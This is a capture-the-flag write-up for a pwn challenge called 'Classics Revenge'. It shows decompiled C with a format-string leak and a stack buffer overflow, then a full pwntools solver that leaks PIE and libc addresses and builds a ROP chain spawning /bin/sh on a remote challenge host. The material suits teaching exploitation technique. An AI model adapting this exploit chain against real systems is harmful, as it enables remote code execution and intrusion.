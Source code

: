 ## Classics Revenge
![challenge](../images/Classics_rev.png)

### Source Code
```c
void menu(void)

{
  puts("Hello pwner, i\'ll give you two choices . do your magic!.");
  puts("--> [1] shake your proteins.");
  puts("--> [2] drink it.");
  puts("--> [3] go to the gym.");
  printf("> ");
  return;
}
```
```c
void shake(void)

{
  undefined local_dc [4];
  char local_d8 [208];
  
  printf("How many spoons do you want to pour: ");
  __isoc99_scanf(&DAT_0010202e,local_dc);
  printf("Do You want to say something while we are preparing it ?: ");
  read(0,local_d8,199);
  printf(local_d8);
  puts("now go drink it.");
  return;
}
```
```c
void drink(void)

{
  undefined local_48 [64];
  
  puts("Now drink your proteins and give me your feedback\n");
  __isoc99_scanf(&DAT_001020bb,local_48);
  return;
}
```
```c
undefined8 main(void)

{
  char local_11 [5];
  uint local_c;
  
  setup();
  while( true ) {
    menu();
    read(0,local_11,4);
    local_c = atoi(local_11);
    if (local_c == 3) break;
    if (local_c < 4) {
      if (local_c == 1) {
        shake();
      }
      else if (local_c == 2) {
        drink();
      }
    }
  }
  puts("cy@");
  return 0;
}
```

### Overview
Before diving into the exploitation process let's check the security of the binary.<br>
![checksec](../images/Classics_rev_checksec.png)

We can see that both ```NX``` and ```PIE``` are enabled (if you don't know what is PIE you can check this https://ir0nstone.gitbook.io/notes/types/stack/pie). So in order to solve this we need to :
	<ul>
		<li><strong>Leak PIE base address</strong></li>
		<li><strong>Calculate libc.address</strong></li>
		<li><strong>Pop up a Shell</strong></li>
	</ul>

### Solver
```py
#!/usr/bin/env python3
from pwn import *

libc = ELF(b'libc6_2.27-3ubuntu1.5_amd64.so')
elf = context.binary = ELF('./main')
p = remote('20.216.40.184', 10010)

junk = b'\x90' * 72

p.sendline(b'1')
p.sendline(b'1')
p.recvuntil(b'Do You want to say something while we are preparing it ?: ')
p.sendline(b'%26$p')
leak = int(p.recvline().strip(), 16)
elf.address = leak - 0x2128
log.success(f'PIE base : {hex(elf.address)}')

rop = ROP(elf)
rop.call(elf.plt.puts, [elf.got.puts])
rop.call(elf.sym.main)
log.info(rop.dump())
payload = junk + rop.chain()
p.sendline(b'2')
p.recvuntil(b'Now drink your proteins and give me your feedback\n\n')
p.sendline(payload)
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info(f'puts_got : {hex(leak)}')

libc.address = leak - libc.sym.puts
log.success(f"libc Address : {hex(libc.address)}")

pop_rdi_offset = 0x145b
POPRDI = elf.address + pop_rdi_offset
POPRAX = libc.address + 0x00000000001cf8a8
POPRSI = libc.address + 0x0000000000023a6a
POPRDX = libc.address + 0x0000000000001b96
SYSCALL = libc.address + 0x0000000000002743

pay = junk
pay += p64(POPRAX)
pay += p64(0x3b)
pay += p64(POPRDI)
pay += p64(next(libc.search(b'/bin/sh')))
pay += p64(POPRSI)
pay += p64(0)
pay += p64(POPRDX)
pay += p64(0)
pay += p64(SYSCALL)

p.sendline(b'2')
p.recvuntil(b'Now drink your proteins and give me your feedback\n\n')
p.sendline(pay)

p.interactive()
p.close()
```
